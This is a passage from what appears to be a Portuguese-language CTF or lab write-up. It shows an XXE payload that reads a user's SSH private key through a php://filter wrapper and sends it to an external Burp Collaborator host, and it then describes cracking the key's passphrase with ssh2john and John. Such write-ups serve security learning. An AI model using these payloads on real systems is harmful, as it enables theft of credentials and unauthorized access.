 ```xml
```

### **Pegando shell!** 😶‍🌫️

Como vimos na última linha do arquivo /etc/passwd, ele nos exibe um usuário **suporte**. Feito isso, eu modifiquei o arquivo **xxe.xml** para nos retornar o arquivo **/home/suporte/.ssh/id_rsa**:

```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/home/suporte/.ssh/id_rsa">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://ei0x2smhpfwv7t8uca6pzhwbm2sugj.burpcollaborator.net/%data;'>">
```

E, fazendo o mesmo esquema, ele nos retornou o id_rsa em base64! Basta descriptografá-lo!

![Untitled](Hijacking%206ac706b6cc614111a8c65575a1e87471/Untitled%209.png)

Pois é, alegria de pobre dura pouco. A chave RSA veio com senha. Para isso, eu vou utilizar um script disponibilizado pela ferramenta **John**, o **ssh2john**. O mesmo altera o valor do id_rsa para um algorítimo de hash que o john consiga quebrar. Smboora!

![Untitled](Hijacking%206ac706b6cc614111a8c65575a1e87471/Untitled%2010.png)

E, conseguimos credenciais de chave RSA! Com isso, vamos nos autenticar.
